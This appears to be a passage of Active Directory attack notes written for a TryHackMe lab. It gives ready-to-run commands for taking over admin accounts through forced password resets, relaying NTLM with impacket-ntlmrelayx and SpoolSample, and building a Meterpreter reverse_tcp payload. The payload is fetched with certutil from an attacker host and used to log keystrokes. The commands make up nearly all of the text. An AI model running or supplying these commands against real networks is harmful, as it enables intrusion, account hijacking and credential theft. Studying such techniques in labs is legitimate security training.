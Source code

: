 
### AddMember + ForceChangePassword

1. Add our AD account to the IT Support group
   - `Add-ADGroupMember "IT Support" -Members "<Your_AD_Account_Username>"`
   - Verify the result with: `Get-ADGroupMember -Identity "IT Support"`
   - At this point you should have inherited 'ForceChangePassword' Permission Delegation
2. Identify the members of the group to select a target. Since the network is shared, it might be best to select one further down in the list
   - `Get-ADGroupMember -Identity "Tier 2 Admins"`  
3. `$Password = ConvertTo-SecureString "<New_Password_For_User>" -AsPlainText -Force`
   - `Set-ADAccountPassword -Identity "<AD_Account_Username_Of_Target>" -Reset -NewPassword $Password`

- If you get an Access Denied error, your permissions have not yet propagated through the domain. This can take up to 10 minutes. The best approach is to terminate your SSH or RDP session, take a quick break, and then reauthenticate and try again. You could also run 'gpupdate /force' and then disconnect and reconnect, which in certain cases will cause the synchronisation to happen faster.
- See [Exploiting AD Task 2](https://tryhackme.com/room/exploitingad)


### Automated Relays

- With BloodHound, find instances where a computer has the "AdminTo" relationship over another computer
  - `MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p`
- A requirement is SMB signing enabled, check it with the following command
  - `nmap --script=smb2-security-mode -p445 <target_server1_ip> <target_server2_ip>`
Abuse Print Spooler Service
- Determine if the Print Spooler service is running
  - `GWMI Win32_Printer -Computer <target_server>`
- Set up NTLM relay
  - `impacket-ntlmrelayx -smb2support -t smb://<target_server1_ip> -debug`
  - `impacket-ntlmrelayx -smb2support -t smb://<target_server1_ip> -c 'whoami /all' -debug`
- `SpoolSample.exe <target_server2_ip> "<attacker_ip>"`

Keylogging

1. `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<exploit_ad_ip> LPORT=<listening_port> -f psh -o shell.ps1`
2. `sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <exploit_ad_ip>; set LPORT <listening_port>; exploit"`

From the victim
1. `certutil.exe -urlcache -split -f http://<IP>/shell.ps1`

From Meterpreter
1. `ps | grep "explorer"`
2. `migrate PID`
3. `getuid`
4. `keyscan_start`
5. `keyscan_dump`


### GenericAll
